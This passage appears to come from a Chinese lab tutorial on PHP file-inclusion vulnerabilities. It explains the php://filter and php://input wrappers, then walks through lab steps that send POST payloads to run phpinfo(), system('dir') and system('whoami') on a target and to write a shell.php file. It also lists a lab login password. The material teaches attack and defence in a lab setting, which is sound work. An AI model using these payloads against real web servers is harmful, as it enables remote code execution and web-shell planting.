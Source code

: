    * string.tolower

     将所有字符转换为小写。

   * string.strip_tags
     处理掉读入的所有标签，如XML。用于绕过死亡exit

2. 转换过滤器（convert）

   * base64	`php://filter/read=convert.base64-encode/resource=路径`

##### 2. php://input   

​	返回HTTP-headers之后的原始数据

**例子：**

###### 实验目的

通过本实验，通过文件包含漏洞，利用PHP封装伪协议，发送POST数据进行命令执行。

###### 实验环境

- 操作机：Win10
  用户名：Administrator
  密码：Sangfor!7890
- 靶机：Apache + PHP
- 实验地址：http://ip/include/include.php

###### 实验原理

PHP有很多内置URL风格的封装协议,这类协议与fopen()，copy()，file_exists()，filesize()等文件系统函数所提供的功能类似。
这类协议有：
![image.png](https://oss.edu.sangfor.com.cn/file/20210602/image210602202143233yv6m4.png)
利用php流input中流的概念，将原来的文件流重定向到了用户可控的输入流中执行命令。

###### 实验步骤

1、登录操作机，打开浏览器，在浏览器中访问http://ip/include/include.php
![image.png](https://oss.edu.sangfor.com.cn/file/20210602/image210602172648398jklgo.png)

2、访问http://ip/include/include.php?page=php://input
![image.png](https://oss.edu.sangfor.com.cn/file/20210602/image210602202556714wk9kt.png)

3、勾选"Post data"，在提交post数据的位置输入"<?php phpinfo();?>"，并发送数据执行
![image.png](https://oss.edu.sangfor.com.cn/file/20210602/image210602202911655cx4ti.png)

4、发送"<?php system(‘dir’);?>"数据执行系统命令
![image.png](https://oss.edu.sangfor.com.cn/file/20210602/image210602203141173z1llf.png)

5、发送"<?php system(‘whoami’);?>"数据执行系统命令
![image.png](https://oss.edu.sangfor.com.cn/file/20210602/image210602203233890o683b.png)

6、发送"<?php fputs(fopen(‘shell.php’,‘w’),’<?php phpinfo();?>’);?>"数据执行，生成shell脚本文件
![image.png](https://oss.edu.sangfor.com.cn/file/20210602/image2106022042211640vrea.png)
